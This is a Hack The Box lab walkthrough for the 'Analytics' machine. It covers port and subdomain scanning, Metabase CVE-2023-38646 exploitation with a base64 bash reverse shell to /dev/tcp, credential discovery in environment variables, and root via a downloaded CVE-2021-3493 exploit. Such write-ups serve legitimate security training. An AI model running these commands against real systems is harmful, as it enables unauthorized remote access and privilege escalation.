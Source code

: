 # HTB Machine Walkthrough: Analytics

  

---
> [!IMPORTANT]
> **Please use this as a hint or guide if you're blocked at some point of this machine. I make these files for myself and to help some friends that are also doing these machines.**

---

> [!NOTE]
> **Try to get as far as you can by yourself or you will never learn to solve machines alone. Hope you the best and happy hacking <3.**
---

  

## 1. Fast Nmap Scan on the Provided IP

Start by scanning all ports to identify the open ones:

```bash
nmap -sS -p- --min-rate 5000 $machine_ip -vvv -oN nmap.txt
```

This reveals ports 22 (SSH) and 80 (HTTP) are open. ( I try to save the scan results just in case i need something of it later )

## 2. Recognition


Perform a service detection scan to identify versions and services:

```bash
nmap -p22,80 -sCV $machine_ip -vvv -oN serv_recon.txt
```

The results show that port 80 hosts an `nginx/1.18.0` server that redirects to `http://analytical.htb/`.

To discover subdomains, use FFUF:

```bash

ffuf -u  http://$machine_ip -H "Host: FUZZ.analytical.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac

```

A subdomain `data.analytical.htb` is identified, which reveals a Metabase login page when accessed.

  

## 3. Exploit Phase

  

### Exploiting CVE-2023-38646

  

Metabase is vulnerable to a pre-authenticated remote code execution vulnerability.

Retrieve the `setup-token` using the API endpoint:

```bash

curl http://data.analytical.htb/api/session/properties -s | jq -r '."setup-token"'

```
Prepare a reverse shell payload:

```bash

echo 'bash -i >& /dev/tcp/$YourMachine_IP/$NC_ListenerPort 0>&1' | base64

```
Start a netcat listener to capture the reverse shell:

```bash

nc -lnvp $NC_ListenerPort

```

Use Burp Suite or curl to send a crafted POST request to exploit the vulnerability. This provides access as the `metabase` user in a Docker container.

  

## 4. Privilege Escalation to "metalytics"

Inspect environment variables to find credentials (linpeas also works) :
```bash
env
```

The variables reveal credentials for the user `metalytics`. Use SSH to log in:
```bash
ssh  metalytics@$machine_ip
```
Now as user, retrieve and submit the user flag
```bash
cat user.txt
```
## 5. Privilege Escalation to Root

Check the kernel version for known vulnerabilities:
```bash
uname  -r
```

This machine results vulnerable to [CVE-2021-3493](https://github.com/briskets/CVE-2021-3493/tree/main) so you just have to get into the repository and follow the steps to take advantage of this vector.
  

On your local machine open a simple http server with python so you can send the file to the target:

```bash
python3  -m  http.server  8080
```

  

On the target machine, get the expoit, compile it with gcc and execute it:

```bash
wget  http://10.10.14.101:8080/exploit.c

gcc  exploit.c  -o  exploit

./exploit
```
Now you should be root user, now just retrieve the root flag and submit it.

```bash

cat  /root/root.txt

```

  

---

**Congratulations: Machine completed**

---
